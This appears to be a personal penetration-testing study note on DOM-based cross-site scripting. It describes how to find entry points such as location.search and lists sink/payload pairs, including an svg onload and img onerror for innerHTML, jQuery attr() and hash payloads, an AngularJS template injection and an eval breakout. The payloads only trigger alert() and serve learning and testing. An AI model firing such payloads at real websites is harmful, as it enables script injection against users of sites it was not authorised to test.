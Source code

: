 [[Pentest/Vulns/XSS/XSS|XSS]]
#xss
It's like [[Reflected XSS]], but the payload doesnt go though server.

TODO: more details and examples

**Automated search**: DOM Invader in burp browser extension.

##### How to find
1. Search for entry points like `location.search`. Inject a random payload into it.
2. Grep the response HTML for used payload.
3. Adjust payload to execute it

**sink / payload**:
* `document.write` / `<svg onload=alert(1) />`
* `innerHTMl=` /  `<img src=x onerror=alert(1) />` 
	* or iframe tag bc script tag, svg onload wont work
* [[jquery]] `attr()` / `?returnUrl=javascript:alert(document.domain)`
* jquery `$(location.hash)` / `<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">` 
* `ng-app` / `{{$on.constructor('alert(1)')()}}`
* ```eval('var result = {"results":[],"searchTerm":+payload+"}';')```   /  `\"-alert(1)}//`


**List of sinks**: https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities